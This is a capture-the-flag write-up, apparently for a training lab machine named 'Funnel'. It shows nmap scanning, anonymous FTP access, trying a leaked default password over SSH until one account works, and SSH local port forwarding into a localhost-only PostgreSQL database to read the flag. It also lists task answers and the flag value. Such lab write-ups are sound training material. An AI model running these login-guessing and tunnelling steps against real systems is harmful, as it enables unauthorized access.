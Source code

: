 # Funnel

target: 10.129.228.195

attker: 10.10.15.248

## Task 1: How many TCP ports are open?

`2`

```bash
└─$ nmap -p- --min-rate=1000 -sV 10.129.228.195              
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-22 11:38 EST
Nmap scan report for 10.129.228.195
Host is up (0.34s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 82.04 seconds

```

## Task 2: What is the name of the directory that is available on the FTP server?

`mail_backup`

```bash
└─$ ftp 10.129.228.195                       
Connected to 10.129.228.195.
220 (vsFTPd 3.0.3)
Name (10.129.228.195:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> pwd
Remote directory: /
ftp> ls
229 Entering Extended Passive Mode (|||27416|)
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Nov 28 14:31 mail_backup
226 Directory send OK.

```

## Task 3: What is the default account password that every new member on the "Funnel" team should change as soon as possible?

`funnel123#!#`

```bash
ftp> ls mail_backup
229 Entering Extended Passive Mode (|||11834|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp         58899 Nov 28 14:30 password_policy.pdf
-rw-r--r--    1 ftp      ftp           713 Nov 28 14:31 welcome_28112022
226 Directory send OK.

```

password_policy.pdf:

```text
For example the default password of “funnel123#!#” must
be changed immediately.
```

## Task 4: Which user has not changed their default password yet?

`christine`

welcome_28112022:

```text
Frome: root@funnel.htb
To: optimus@funnel.htb albert@funnel.htb andreas@funnel.htb christine@funnel.htb maria@funnel.htb
Subject:Welcome to the team!
```

```bash
┌──(kali㉿kali)-[~]
└─$ ssh optimus@10.129.228.195  
optimus@10.129.228.195's password: 
Permission denied, please try again.
optimus@10.129.228.195's password: 

                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ ssh albert@10.129.228.195 
albert@10.129.228.195's password: 
Permission denied, please try again.
albert@10.129.228.195's password: 

                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ ssh christine@10.129.228.195 
christine@10.129.228.195's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 22 Feb 2023 04:52:37 PM UTC

  System load:              0.0
  Usage of /:               61.4% of 4.78GB
  Memory usage:             12%
  Swap usage:               0%
  Processes:                159
  Users logged in:          0
  IPv4 address for docker0: 172.17.0.1
  IPv4 address for ens160:  10.129.228.195
  IPv6 address for ens160:  dead:beef::250:56ff:feb9:bcb7

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

christine@funnel:~$ 

```

## Task 5: Which service is running on TCP port 5432 and listens only on localhost?

`postgresql`

```bash
christine@funnel:~$ ss -tl
State                      Recv-Q                     Send-Q                                           Local Address:Port                                                 Peer Address:Port                     Process                     
LISTEN                     0                          4096                                             127.0.0.53%lo:domain                                                    0.0.0.0:*                                                    
LISTEN                     0                          128                                                    0.0.0.0:ssh                                                       0.0.0.0:*                                                    
LISTEN                     0                          4096                                                 127.0.0.1:postgresql                                                0.0.0.0:*                                                    
LISTEN                     0                          4096                                                 127.0.0.1:39625                                                     0.0.0.0:*                                                    
LISTEN                     0                          32                                                           *:ftp                                                             *:*                                                    
LISTEN                     0                          128                                                       [::]:ssh                                                          [::]:*                                                    
christine@funnel:~$ 

```

## Task 6: Since you can't access the previously mentioned service from the local machine, you will have to create a tunnel and connect to it from your machine. What is the correct type of tunneling to use? remote port forwarding or local port forwarding?

`local port forwarding`

## Task 7: What is the name of the database that holds the flag?

`secrets`

ssh:

```bash
christine@funnel:~$ psql 

Command 'psql' not found, but can be installed with:

apt install postgresql-client-common
Please ask your administrator.

```

local port forwarding:

```bash
└─$ ssh -L 2222:127.0.0.1:5432 christine@10.129.228.195
```

- 2222: client port
- 127.0.0.1:5432: server's perspective to local only postgresql service

psql through client port 2222 to server port 5432:

```bash
└─$ psql -h 127.0.0.1 -p 2222 -U christine

christine-# \l
                                                  List of databases
   Name    |   Owner   | Encoding |  Collate   |   Ctype    | ICU Locale | Locale Provider |    Access privileges    
-----------+-----------+----------+------------+------------+------------+-----------------+-------------------------
 christine | christine | UTF8     | en_US.utf8 | en_US.utf8 |            | libc            | 
 postgres  | christine | UTF8     | en_US.utf8 | en_US.utf8 |            | libc            | 
 secrets   | christine | UTF8     | en_US.utf8 | en_US.utf8 |            | libc            | 
 template0 | christine | UTF8     | en_US.utf8 | en_US.utf8 |            | libc            | =c/christine           +
           |           |          |            |            |            |                 | christine=CTc/christine
 template1 | christine | UTF8     | en_US.utf8 | en_US.utf8 |            | libc            | =c/christine           +
           |           |          |            |            |            |                 | christine=CTc/christine
(5 rows)

christine-# \c secrets
psql (15.2 (Debian 15.2-1), server 15.1 (Debian 15.1-1.pgdg110+1))
You are now connected to database "secrets" as user "christine".

secrets-# \dt
         List of relations
 Schema | Name | Type  |   Owner   
--------+------+-------+-----------
 public | flag | table | christine
(1 row)

```

## Task 8: Could you use a dynamic tunnel instead of local port forwarding? Yes or No

`yes`

## Submit root flag

```bash
secrets=# SELECT * FROM flag;
              value               
----------------------------------
 cf277664b1771217d7006acdea006db1

```

### References

<https://iximiuz.com/en/posts/ssh-tunnels/#:~:text=Local%20port%20forwarding%20(%20ssh%20%2DL>,listening%20on%20an%20extra%20port.

<https://www.ssh.com/academy/ssh/tunneling-example>
